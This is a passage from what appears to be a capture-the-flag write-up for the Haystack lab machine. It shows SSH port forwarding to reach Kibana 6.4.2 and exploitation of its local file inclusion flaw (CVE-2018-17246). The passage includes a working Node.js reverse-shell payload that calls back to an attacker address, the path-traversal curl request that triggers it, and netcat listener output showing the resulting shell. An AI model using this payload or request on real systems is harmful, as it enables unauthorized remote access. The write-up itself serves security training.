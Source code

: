 ~~~
*{% endhighlight %}

To access the "127.0.0.1:5601" from our localhost, we need port forwarding.<br>
We can find "Kibana" which is data visualization UI used with Elasticsearch.
{% highlight shell %}
ssh -L 5601:127.0.0.1:5601 security@10.10.10.115 -N
{% endhighlight %}
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-11-08/2019-11-08-10-26-17.png)

By clicking the "Management" tab, we can figure out that the version of Kibana is "6.4.2"
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-11-08/2019-11-08-10-27-10.png)

By quick search, we can find that this version of kibana has a <a href="https://github.com/mpgn/CVE-2018-17246">LFI "CVE-2018-17246"</a><br>
As it's written, upload followin javascript shell to "/dev/shm"<br>
shell.js:
{% highlight js %}
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "10.10.14.13", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
{% endhighlight %}

Then, launch a netcat listener and send a get request to access to the "shell.js".<br>
We can achieve a reverse shell as a user "kibana".
{% highlight shell %}
[security@haystack shm]$ curl 'http://127.0.0.1:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../dev/shm/shell.js'
{% endhighlight %}
{% highlight shell %}
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.115] 53668
id
uid=994(kibana) gid=992(kibana) grupos=992(kibana) contexto=system_u:system_r:unconfined_service_t:s0
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 1000
    link/ether 00:50:56:b9:b4:73 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.115/24 brd 10.10.10.255 scope global ens33
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:b473/64 scope global mngtmpaddr dynamic 
       valid_lft 86211sec preferred_lft 14211sec
    inet6 fe80::250:56ff:feb9:b473/64 scope link 
       valid_lft forever preferred_lft forever
{% endhighlight %}
~~~